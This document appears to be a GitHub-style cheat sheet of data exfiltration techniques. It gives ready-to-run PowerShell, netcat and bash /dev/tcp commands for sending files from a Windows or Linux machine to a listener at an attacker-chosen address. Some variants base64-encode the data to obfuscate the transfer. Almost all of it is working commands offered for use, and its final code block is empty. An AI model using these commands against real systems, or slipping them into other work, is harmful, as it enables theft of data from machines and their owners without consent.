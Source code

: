 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***

### Windows To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $Length = [System.BitConverter]::GetBytes($FileContents.Length); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()
```
###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***

### Linux To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp port > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
base64 -w0 file.ext | nc -q 0 %ListenerAddress% %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```
base64 -w0 file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

***

#### Retrieve file from host to client:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -q 0 -lp %ListenerPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```

```
